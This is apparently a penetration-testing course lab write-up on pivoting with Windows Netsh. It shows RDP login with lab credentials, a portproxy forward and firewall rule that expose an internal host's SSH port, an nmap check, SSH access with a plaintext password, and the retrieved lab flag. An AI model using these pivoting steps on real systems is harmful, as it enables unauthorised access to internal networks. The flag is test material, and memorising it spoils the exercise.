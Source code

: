 Background: the built-in firewall configuration tool Netsh1 (also known as Network Shell). Using Netsh, we can set up a port forward with the portproxy2 subcontext3 within the interface context.4 While Netsh requires administrative privileges to create a port forward on Windows, it can be very useful in some restrictive situations.

Questions 1
Start VM Group 1. As in the walkthrough, RDP into MULTISERVER03 and create a port forward with Netsh, in order to SSH into PGDATABASE01 from the Kali machine. Retrieve the flag on PGDATABASE01 at /tmp/netsh_flag

# MULTISERVER03 is serving its web application on TCP port 80 on the perimeter. CONFLUENCE01 is no longer accessible on the WAN interface. For simplicity, the firewall on MULTISERVER03 also allows inbound TCP port 3389, meaning we are able to log in over RDP directly.

# We want to SSH into PGDATABASE01 directly from our Kali machine. To do this, we'll need to create a port forward on MULTISERVER03 that will listen on the WAN interface and forward packets to the SSH port on PGDATABASE01.

NOTES: The portproxy subcontext of the netsh interface command requires administrative privileges to make any changes. This means that in most cases we will need to take UAC into account. In this example, we're running it in a shell over RDP using an account with administrator privileges, so UAC is not a concern. 

# RDP into MULTISERVER03 first
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.180.64

# Run CMD as administrator then run Netsh 
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.180.64 connectport=22 connectaddress=10.4.180.215

C:\Windows\system32>netstat -anp TCP | find "2222"
TCP    192.168.180.64:2222    0.0.0.0:0   LISTENING

# We can also confirm that the port forward is stored by issuing the show all command in the netsh interface portproxy subcontext.
netsh interface portproxy show all
...
192.168.180.64  2222        10.4.180.215    22
...

# However, we can't connect to port 2222 from our Kali machine due to it is filetered by Windows firewall

# In order to access it, we need to poke a hole in the firewall on MULTISERVER03. We'll also need to remember to plug that hole as soon as we're finished with it!
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.180.64 localport=2222 action=allow
Ok.

# Now we can check the port status from our Kali machine
sudo nmap -sS 192.168.180.64 -Pn -n -p2222
...
2222/tcp open  EtherNetIP-1
...

ssh database_admin@192.168.180.64 -p2222 
password: sqlpass123

# Great! We're SSH'd into PGDATABASE01 through a port forward set up on MULTISERVER03 using Netsh.

# After we complete it, we need to remove the rule
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

# We can also delete the port forward we created. This time we'll use the netsh interface subcontext to del the portproxy we created. We will reference the forwarding type (v4tov4) and the listenaddress and listenport we used when creating the rule, so Netsh can determine which rule to delete.
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.180.64

# Most Windows Firewall commands have PowerShell equivalents with commandlets like New-NetFirewallRule and Disable-NetFirewallRule. However, the netsh interface portproxy command doesn't. For simplicity, we've stuck with pure Netsh commands in this section. However, for a lot of Windows Firewall enumeration and configuration, PowerShell is extremely useful. 

# Back to the questions 1
database_admin@pgdatabase01:/tmp$ cat netsh_flag 
OS{37c6e4946282458bfd81180a5e1efa3c}
